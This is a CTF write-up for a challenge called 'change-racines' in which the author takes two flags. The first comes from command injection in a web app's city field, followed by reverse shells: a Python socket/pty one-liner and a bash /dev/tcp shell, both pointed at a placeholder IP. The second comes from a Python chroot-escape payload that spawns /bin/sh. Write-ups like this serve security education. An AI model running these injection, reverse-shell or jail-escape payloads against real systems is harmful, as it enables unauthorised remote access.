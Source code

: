 # change-racines
# Flag 1

## Recon

Information available:
- http://REDACTED:9090
- https://www.cheswick.com/ches/papers/berferd.pdf

The app: 

![alt text](img/app.png)

There is a City field and a refresh button

Without any value in the city field, lets hit refresh:
```python
(b'\n', None)
```
Well well well, look like python to me!

`None` Lets try a string in the city field now:

```python
(b'PlatypusJovial\n', None)
```
Humm, straith python?
`import os; print('\n'.join(os.listdir('.')))`

```python
(b"/bin/bash: -c: line 1: syntax error near unexpected token `'\\n'.join'\n/bin/bash: -c: line 1: `echo import os; print('\\n'.join(os.listdir('.')))'\n", None)
```

/bin/bash -c.. humm `ls`?
```python
(b'ls\n', None)
```

Humm `$(ls)`
```python
(b'__pycache__ app.py bin etc flag1 get-pip.py lib lib64 python root templates usr\n', None)
```

That was an easy one `$(cat flag1)`
```python
(b'/bin/bash: line 1: cat: command not found\n\n', None)
```
Aw.. oh.. maybe not so easy. Clearly python is there somewhere! Is it time for a python a reverse shell?
https://www.revshells.com

Had to adapt it to the situation
```python
$(./python/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")')
```

And finally.. i broke the toy.. (On the writeups instance)
```python
nc -lvnp REDACTED
listening on [any] REDACTED ...

connect to [REDACTED] from (UNKNOWN) [REDACTED] REDACTED
Traceback (most recent call last):
  File "<string>", line 1, in <module>
  File "/python/lib/python3.9/pty.py", line 156, in spawn
    pid, master_fd = fork()
  File "/python/lib/python3.9/pty.py", line 97, in fork
    master_fd, slave_fd = openpty()
  File "/python/lib/python3.9/pty.py", line 30, in openpty
    master_fd, slave_name = _open_terminal()
  File "/python/lib/python3.9/pty.py", line 60, in _open_terminal
    raise OSError('out of pty devices')
OSError: out of pty devices
```
Oh ... 

## Edit:
I have been told that I was wrong and it was normal.. and they were right!
Lets do it the good old-fasionned way
```
$(bash -i >& /dev/tcp/$IP/$PORT 0>&1)
```

There i go!
```
bash: cannot set terminal process group (92): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1# ls
ls
__pycache__
app.py
bin
etc
flag1
get-pip.py
lib
lib64
python
root
templates
usr
```
Reading the flag with python
```
./python/bin/python -c "print(open('flag1').read())"
```
```
bash-5.1# ./python/bin/python -c "print(open('flag1').read())"
./python/bin/python -c "print(open('flag1').read())"
FINCTF{Je-vous-4ssure-personne-ne-p3ut-obtenir-l3-seucrait!}
```

# Flag 2 : Get out of jail.. (in this case.. chroot)

With python
```
if not os.path.exists("chroot"):
    os.mkdir("chroot")
os.chroot("chroot")
```
Getting myself cozy in a brand new jail

Sending this payload https://tbhaxor.com/breaking-out-of-chroot-jail-shell-environment/
```python
import os; os.chroot("chroot"); [os.chdir("..") for _ in range(10)]; os.chroot("."); os.system("/bin/sh");
```

Result:
```
ls
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

In root folder
```
cd /root
ls
app.py
app.zip
chroot
create-env.sh
flag1
flag2
index.html
libnsl.so.2
libnsl.so.2.0.1
python.zip
cat flag2
FINCTF{n0o0o0o0-Nicéphore-va-devoir-travailler-très-tard}
```

Oink oink!